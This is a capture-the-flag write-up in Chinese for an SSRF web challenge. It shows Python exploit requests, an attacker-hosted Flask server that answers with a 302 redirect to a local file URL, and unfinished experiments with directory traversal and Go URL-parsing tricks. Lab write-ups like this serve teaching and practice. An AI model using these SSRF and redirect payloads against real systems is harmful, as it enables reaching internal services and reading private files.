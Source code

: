 tags:: [[CTFWEB/SSRF]]

- # 思路
	- SSRF+302跳转让目标访问127.0.0.1:80
- # 302
	- fuzz发现访问目标时`//a.a:1234/..`会发生302跳转，跳转到`//a.a:1234/../`
	- 所以让路由中的`client.Get`访问`http://127.0.0.1:1234//a.a:1234/..`会被跳转到`//a.a:1234/../`
	- 所以可以让他访问我们的VPS, 然后VPS再告诉它跳转到`http://127.0.0.1:80?file=/flag`
	- Exp
		- ```python
		  r = requests.post(url + "/vul", json = {
		      "url": f"http://127.0.0.1:1234//xxx:4051/.."
		  })
		  print(r.text)
		  ```
		- 然后在服务器`xxx:4051`上搭建：
			- ```python
			  from flask import Flask, redirect
			  
			  app = Flask(__name__)
			  
			  @app.route('/')
			  def my_redirect():
			      return redirect('http://127.0.0.1:80?file=/flag', code=302)
			  
			  if __name__ == '__main__':
			      app.run("127.0.0.1", 4051)
			  ```
- # 施工中
	- 考虑SSRF
	- 目录穿越？
		- ```python
		  r = base_get(url + "/aaa/../0cc175b9c0f1b6a831c399e269772661/0cc175b9c0f1b6a831c399e269772661")
		  print(r.status_code)
		  print(r.text)
		  # 正常返回文件内容
		  ```
	- golang解析url时的不一致问题
		- 这里带上问号和不带上，返回的结果不同
		- ```python
		  r = base_post(url + "/vul", json = {
		      "url": "http://127.0.0.1:1234/_@localhost:80/../0cc175b9c0f1b6a831c399e269772661/0cc175b9c0f1b6a831c399e269772661?"
		  })
		  
		  print(r.text)
		  ```